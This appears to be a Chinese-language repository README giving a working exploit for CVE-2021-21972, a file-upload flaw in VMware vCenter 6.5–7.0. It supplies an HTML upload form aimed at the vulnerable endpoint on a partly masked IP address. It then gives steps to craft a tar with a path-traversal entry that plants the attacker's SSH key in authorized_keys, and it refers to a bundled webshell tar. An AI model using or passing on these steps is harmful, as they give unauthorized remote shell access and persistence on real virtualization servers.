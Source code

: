 # CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞

## 参考
http://noahblog.360.cn/vcenter-6-5-7-0-rce-lou-dong-fen-xi/?continueFlag=f498c1c266566c7838d9ab5bef68118c
## 漏洞细节

漏洞为任意文件上传
存在问题的接口为/ui/vropspluginui/rest/services/uploadova
- 构造exp.html

```
<html>
<head>
<title>CVE-2021-21972 vCenter 6.5-7.0 RCE 漏洞上传利用</title>
</head>
<body>
    <form action="https://221.11.xx.211/ui/vropspluginui/rest/services/uploadova" method="post" enctype="multipart/form-data">
        test：<input type="text" name="name" value="不用输入"><br>
        选择你的exp html：<input type="file" name="uploadFile"><br>
        <input type="submit" value="提交">
    </form>
<pre>
利用了接口：
/ui/vropspluginui/rest/services/uploadova


仓库内的midi.tar为默认冰蝎3马，直接POST接口即可（仅限于默认安装的VCSA）

</pre>
</body>
</html>
```
- 构造tar

```
ssh-keygen -t rsa
cp /Users/root/.ssh/id_rsa.pub authorized_keys

使用7zip 压缩authorized_keys为 authorized_keys.tar,然后编辑压缩包，修改文件authorized_keys名字为：../../home/vsphere-ui/.ssh/authorized_keys
然后保存，关闭7zip
```
- 上传

使用html上传tar即可，然后使用ssh 221.11.xx.211 进行登录

